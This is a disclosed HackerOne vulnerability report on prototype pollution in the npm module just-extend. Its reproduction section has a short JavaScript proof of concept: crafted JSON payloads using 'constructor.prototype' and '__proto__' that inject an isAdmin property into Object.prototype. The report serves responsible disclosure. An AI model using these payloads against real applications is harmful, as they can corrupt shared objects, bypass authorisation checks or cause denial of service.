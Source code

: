 # Prototype pollution attack in just-extend

## Report Details
- **Report ID**: 430291
- **URL**: https://hackerone.com/reports/430291
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-29T17:03:52.159Z
- **Disclosed**: 2018-11-29T17:13:19.377Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in just-extend
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** just-extend
**version:** 2.1.0, and 3.0.0
**npm page:** `https://www.npmjs.com/package/just-extend`

## Module Description

Part of a library of zero-dependency npm modules that do just do one thing.
Guilt-free utilities for every occasion.

## Module Stats

723,414 downloads in the last week

# Vulnerability

## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

The functions `just-extend` can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Craft an object of form `{constructor: {prototype: {...}}}` or `{__proto__: {...}}` and send it to `just-extend`.

```javascript
var extend = require('just-extend');

var payload1 = JSON.parse('{"constructor": {"prototype": {"isAdmin": true}}}');
extend(true, {}, payload1);
console.log({}.isAdmin); // true

var payload2 = JSON.parse('{"__proto__": {"isAdmin2": true}}');
extend(true, {}, payload2);
console.log({}.isAdmin2); // true
```

# Wrap up

- I contacted the maintainer to let them know: [Y]
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments
